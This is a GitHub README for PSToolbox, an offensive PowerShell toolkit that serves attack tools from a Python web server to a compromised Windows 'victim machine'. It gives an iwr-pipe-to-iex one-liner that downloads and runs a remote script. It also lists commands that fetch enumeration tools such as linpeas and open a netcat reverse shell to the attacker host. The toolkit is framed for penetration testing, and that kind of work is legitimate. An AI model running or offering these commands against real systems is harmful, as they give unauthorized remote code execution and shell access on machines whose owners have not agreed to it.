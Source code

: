 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine.
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
*NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.

	#Show the current config
	Show-PSToolboxConfig

	#Reset the config
	Set-PSToolboxConfig

	#Download all linked files that match linpeas	
	gti -m linpeas
	
	#Download a single toolbox item instead of doing a recursive search
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1'

	#download single item and save with different name
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1' -name 'ad.ps1'

	#Start a netcat reverse shell to the attacker host
	Start-Shell -Type NC -port 4444

This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments


